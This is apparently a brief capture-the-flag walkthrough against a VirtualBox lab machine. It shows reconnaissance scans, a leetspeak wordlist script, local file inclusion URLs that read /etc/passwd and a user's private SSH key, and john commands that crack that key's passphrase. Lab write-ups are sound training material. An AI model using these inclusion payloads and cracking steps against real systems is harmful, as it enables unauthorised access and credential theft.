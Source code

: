 ## Nmap Scan
```
Nmap scan report for 192.168.20.6
Host is up (0.00024s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 21:a5:80:4d:e9:b6:f0:db:71:4d:30:a0:69:3a:c5:0e (ECDSA)
|_  256 40:90:68:70:66:eb:f2:6c:f4:ca:f5:be:36:82:d0:72 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:6A:2F:23 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```bash
dirsearch -u http://192.168.20.6/
```
`http://192.168.20.6/robots.txt`

```bash
cewl http://192.168.20.6/robots.txt
```

leet 1337 converter

```bash
#!/bin/bash

# Verify that a file was provided as an argument.
if [ "$#" -ne 1 ]; then
    echo "Usage: $0 dic.txt"
    exit 1
fi

# Input/output files
file_input="$1"
file_output="1337_format.txt"

# Transformations in basic 1337 format using sed tool
sed -e 's/a/4/g' \
    -e 's/e/3/g' \
    -e 's/i/1/g' \
    -e 's/l/1/g' \
    -e 's/o/0/g' \
    -e 's/s/5/g' \
    -e 's/t/7/g' \
    "$file_input" > temp_1337.txt

# Merge original and transformed words, removing duplicates and unnecessary capital letters
cat "$file_input" temp_1337.txt | tr '[:upper:]' '[:lower:]' | sort | uniq > "$file_output"

# Clean temp file
rm temp_1337.txt

# Show success message
echo "saved to : $file_output"
```


`http://192.168.20.6/n3gr4/m414nj3.php?page=/etc/passwd`

`http://192.168.20.6/n3gr4/m414nj3.php?page=/home/p4l4nc4/.ssh/id_rsa`

```bash
ssh2john id_rsa > hash

john hash --wordlist=/usr/wordlists/rockyou.txt
```

